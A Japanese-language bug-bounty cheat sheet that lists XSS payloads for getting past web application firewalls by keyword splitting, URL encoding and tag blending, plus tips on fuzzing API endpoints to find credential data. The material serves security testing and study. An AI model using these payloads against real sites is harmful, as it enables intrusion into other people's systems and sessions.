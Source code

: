 ### XSS

#### WAFバイパスについて
WAFは「(」と「)」の順序で括弧をキャッチする  
→文字列を複数の部分に分割したり、キーワードを分割したり、文字の順序を変更すればWAFを回避できる  

```
<svg+onload=location='javascript:alert(1)'>

↓これだとひっかかるから改造する

<svg onload=a=')',b='t(1',j='javas',s='cript:aler',location=j+s+b+a>

↓これをエンコードして実行する

%3Csvg%20onload%3Da%3D')'%2Cb%3D't(1'%2Cj%3D'javas'%2Cs%3D'cript%3Aaler'%2Clocation%3Dj%2Bs%2Bb%2Ba%3E

```

#### タグブレンディングによるWAFバイパス
nextSibling.innerTextを使用することで、次のタグの値を指定できる  
→これを利用してWAFバイパスをする

bタグで囲んだところを良いところで区切ってWAFバイパスを行う  

```
<svg onload=location=nextSibling.innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>
```

↓inner/outerHTML プロパティベースのペイロードには次のものがある  

```
<svg onload=location=all[22].innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>
```

また、ブラウザ開発ツール(F12キー)でconsole.log(document.all)を使用して、nextSibling要素が22個目にあったとした場合↓
```
<svg onload=innerHTML=nextSibling.innerText>
<b><img/src/on<b></b>error=al<b></b>ert(1)></b>
```

#### JavaScriptのホイスティングを利用したXSS
宣言されていないか存在しないオブジェクトへの参照により、JavaScript パーサーは ReferenceError をスローしてしまい、
うまくXSSがささらない場合は、既存の関数を再度使用(ホイスティング)してバイパスすることができる  
https://brutelogic.com.br/blog/xss-with-hoisting/

### API
各フレームワークにあったエンドポイントリストを使ってファジング→ヒットしたURIにアクセスしてクレデンシャルなデータを保持しているAPIを見つける
Reactであればapp.jsが/に相当するため、setting.jsにアクセスすれな/settingに入れたりする
https://www.bugbountyhunter.com/guides/?type=javascript_files

### HTML反映テスト
シンプルだけど強力
test<h2>test1
